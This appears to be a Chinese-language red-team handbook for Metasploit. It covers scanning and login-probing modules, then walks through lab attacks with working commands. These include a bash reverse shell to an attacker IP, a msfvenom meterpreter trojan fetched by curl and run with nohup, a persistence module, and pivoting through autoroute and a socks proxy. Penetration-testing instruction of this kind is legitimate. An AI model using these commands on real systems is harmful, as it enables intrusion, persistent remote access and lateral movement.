






---
tags:
  - 工具
  - 红队
category: 网络安全
---

# MSF 使用手册

<!-- more -->

### MSF 简介

Metasploit 框架（Metasploit Framework, MSF）是一个开源工具，旨在方便渗透测试，它是由 Ruby 程序语言编写的模板化框架，具有很好的扩展性，便于渗透测试人员开发、使用定制的工具模板。

Metasploit 通过控制台接口，你可以访问和使用所有 Metasploit 的插件，例如 Payload、利用模块、 Post 模块等。 Metasploit 还有第三方程序的接口，例如 Nmap、SQLMap 等，可以直接在控制台接口里使用。

### MSF 五大模块类型

- Auxiliaries（辅助模块）
  该模块不会直接在测试者和目标主机之间建立访问，它们只负责执行扫描、嗅探、指纹识别等相关功能以辅助渗透测试。
- Exploit（漏洞利用模块）
  漏洞利用是指由渗透测试者利用 一个系统、应用或者服务中的安全漏洞进行的攻击行为 。流行的渗透攻击技术包括缓冲区溢出、 Web 应用程序攻击，以及利用配置错误等，其中包含攻击者或测试人员针对系统中的漏洞而设计的各种 POC 验证程序，用于破坏系统安全性的攻击代码，每个漏洞都有相应的攻击代码 。
- Payload（攻击载荷模块）
  攻击载荷是我们期望目标系统在被渗透攻击之后完成实际攻击功能的代码，成功渗透目标后，用于在目标系统上运行任意命令或者执行特定代码，在 Metasploit 框架中可以自由地选择、传送和植入 。攻击载荷也可能是简单地在目标操作系统上执行一些命令，如添加用户账号等 。
- Post（后期渗透模块）
  该模块主要用于在取得目标系统远程控制权后，进行一系列的后渗透攻击动作，如获取敏感信息、实施跳板攻击等。
- Encoders（编码工具模块）
  该模块在渗透测试中负责免杀，以防止被杀毒软件、防火墙、 IDS 及类似的安全软件检测出来。

### MSF 渗透攻击步骤

使用 MSF 渗透测试时，可以综合使用以上模块，对目标系统进行侦察并发动攻击，大致的步骤如下所示。

1. 扫描目标机系统，寻找可用漏洞。
2. 选择并配置一个漏洞利用模块（exploit）。
3. 选择并配置一个攻击载荷模块（payload）。
4. 选择一个编码技术，用来绕过杀毒软件的查杀 。
5. 渗透攻击。

### MSF 启动、退出、更新

```
msfconsole：启动MSF框架。
exit：退出MSF框架。也可以使用快捷键Ctrl+\。
back：退出到上一级。
apt-get update ：同步 /etc/apt/sources.list 和 /etc/apt/sources.list.d 中列出的源的索引，这样才能获取到最新的软件包。 。
apt install metasploit-framework：更新msf
```

### 主机扫描命令

**1. 使用辅助模块进行端口扫描**

辅助模块 auxiliary 是 MSF 的内置模块，首先利用`search portscan`命令查询一下有哪些可用的端口扫描模块:



可以看到有 8 个可用的端口扫描模块，此处以 tcp 端口扫描模块为例进行扫描。输入命令`use auxiliary/scanner/portscan/tcp`进入对应模块（看>号前面的内容就知道自己所处模块位置），再输入`show options`查询对应模块需要使用的参数。



在上述参数中，**Required**列被标记为**yes**的参数必须包含实际的值，其中除了**RHOSTS**外，其余参数均有默认值。**THREADS**设置扫描线程数量，默认为 1，数量越高扫描越快。使用`set`命令设置某个参数值，可以使用`unset`命令取消某个参数值的设置，设置完毕后使用`run`命令执行模块，可以看到扫描结果如下：



其实还有两条可选命令：`setg`命令和`unsetg`命令 。二者用于在**msfconsole**中设置或者取消设置全局性的参数值，从而避免重复输入相同的值。例如可以全局设置**LHOST**

**2. 使用辅助模块进行服务扫描**

在扫描目标机器上运行的服务时，有多种基于服务的扫描技术可供选择，例如 VNC 、FTP 、SMB 等，只需执行特定类型的扫描就可以发现服务。使用命令`search scanner`可以发现大量的扫描模块，约有 600 多个。

`search _version` //扫描服务版本的各种模块

`search _login` //查看所有服务登录口令探测模块

`search scanner/**` //搜索与\*\*服务相关的模块。

**Telnet 服务扫描 **

```
search scanner/telnet
use auxiliary/scanner/telnet/telnet_login     //telent登录
use auxiliary/scanner/telnet/telnet_version   //telent版本
set RHOSTS xxxx/24
set THREADS 100
run/exploit
```

**SSH 服务扫描**

```
use auxiliary/scanner/ssh/ssh_login //ssh登录
use auxiliary/scanner/ssh/ssh_login_pubkey //ssh公共密钥认证登录
use auxiliary/scanner/ssh/ssh_version //扫描ssh版本
```



Oracle 数据库扫描

SMB 服务扫描

MSSQL 服务扫描

FTP 扫描

SMTP 扫描

SNMP 扫描

MSF 端口扫描

**wmap** Web 应用辅助扫描，漏洞查找等模块基本都在 modules/auxiliary/ 下， Metasploit 内置了 wmap WEB 扫描器 要先创建一个数据库用来存放扫描数据，初始化 wmap

```
wmap_sites -a http://202.112.50.74 // 添加要扫描的网站
wmap_sites -l
wmap_targets -t http://202.112.20.74 // 把添加的网站作为扫描目标
wmap_run -t   // 查看那些模块将在扫描中使用
wmap_run -e   // 开始扫描
vulns     // 查看漏洞信息
```

**3.使用 Nmap 扫描**

在 MSF 框架中可以直接使用 Nmap，输入命令`nmap -A 192.168.1.7`对靶机进行全面扫描，

### MSF 权限维持

```
use exploit/windows/local/persistence_service
```

### 攻防演练 MSF 的一些命令

#### MSF 管理 shell

手动反弹 shell

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 100.1.1.169
lhost => 100.1.1.169
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 100.1.1.169:4444
```

然后在已经拿到的靶机 shell 输入：

```
bash -i >& /dev/tcp/100.1.1.169/4444 0>&1
```

然后可以把权限修改为 meterpreter（^Z 表示 ctrl+Z）

```
root@web01:/home/mason# ^Z
Background session 1? [y/N]  y
msf6 exploit(multi/handler) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set session 1
session => 1
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 100.1.1.169:4433
[*] Sending stage (980808 bytes) to 192.168.0.51
[*] Meterpreter session 2 opened (100.1.1.169:4433 -> 192.168.0.51:52976) at 2022-12-05 11:32:18 +0800
[*] Post module execution completed

msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 1
[*] Starting interaction with 1...

root@web01:/home/mason#
root@web01:/home/mason# ^Z
Background session 1? [y/N]  y
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```

可以看出 session1 是 shell，session2 是 meterpreter。

### 利用木马获得 meterperter

为了防止 ssh 连接超时终端，可以上传后门文件并持续运行，生成木马命令：

```
msf5: msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=100.1.1.169 LPORT=7777 -f elf > mshell.elf
msf6: msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=100.1.1.169 LPORT=7777 -f elf > mshell.elf
```

然后起监听

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 100.1.1.169
set lport 7777
run
```

上传木马，这里选择在攻击机起 http 服务，然后靶机 curl -o 的方式

```
root@web01:/home/mason# curl http://100.1.1.169:8000/mshell.elf
Warning: Binary output can mess up your terminal. Use "--output -" to tell
Warning: curl to output it to your terminal anyway, or consider "--output
Warning: <FILE>" to save to a file.
root@web01:/home/mason# curl http://100.1.1.169:8000/mshell.elf -o mshell.elf
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   250  100   250    0     0   8162      0 --:--:-- --:--:-- --:--:--  8333
root@web01:/home/mason# chmod 777 mshell.elf
root@web01:/home/mason# nohup ./mshell.elf &
[1] 1863420
root@web01:/home/mason# nohup: ignoring input and appending output to 'nohup.out'
```

重要的是`nohup ./mshell.elf &`，持续运行。

msf 的 meterpreter 有`upload`和`download`命令，可以上传或下载文件。

### MSF 添加路由和代理

[论后渗透 MSF 之 | 添加路由和代理](https://blog.csdn.net/m0_55793759/article/details/126514312)

跳板实现过程

（1）需要有一个已经获取的 meterpreter 会话；

（2）获取内网地址网段；

（3）在 MSF 平台上添加去往内网网段的路由。

#### 路由

在获取一个 session 会话后，获取目标内网相关信息

```
meterpreter > run get_local_subnets

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
Local subnet: 192.168.0.0/255.255.0.0
```

添加路由的方式 1：路由添加到每个网段，动态路由

```
meterpreter > run post/multi/manage/autoroute

[!] SESSION may not be compatible with this module.
[*] Running module against web01.blackops.local
[*] Searching for subnets to autoroute.
[+] Route added to subnet 192.168.0.0/255.255.0.0 from host's routing table.

```

添加路由的方式 2：配置静态路由，即一次只添加一个网段路由

```
run autoroute –h //帮助命令查询
run autoroute -s 10.0.20.0/24 //静态路由添加
```

添加以后查看路由表

```
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.0.0        255.255.0.0        Session 3

meterpreter >
```

#### socks 代理

代理就是在我们的 vps 开启了一个 socks 代理，监听 vps 本地端口，然后再通过这个端口`将流量转给msf`，msf 转发给路由，所以能将流量直接带入到内网中

```
msf5: use auxiliary/server/socks4a    //或者   use auxiliary/server/socks5
msf6: use auxiliary/server/socks_proxy
```

先把 session1 挂起，回到 meterpeter

```
use auxiliary/server/socks_proxy
set options
set SRVHOST 127.0.0.1
run
```

然后修改代理配置文件

```
vim /etc/proxychains4.conf
```

在[proxyLIst]下面添加（有多余的就注释掉）

```
socks5 127.0.0.1 1080
```

然后就可以使用工具扫描了，只需要在命令前面加`proxychains4`就可以了，例如

```
proxychains4 ./fscan_amd64 -h 192.168.0.0/16 -np -no -nopoc
```

### 升级 MSF 后一些 warning

升级 MSF

```
sudo su -
apt-get upgrade
apt-get update
apt install metasploit-framework
```

然后启动

```
msfdb run
```

warning:



处理办法

```
sudo -u postgres psql -U postgres  -d msf REINDEX DATABASE msf;
ALTER DATABASE msf REFRESH COLLATION VERSION;
```


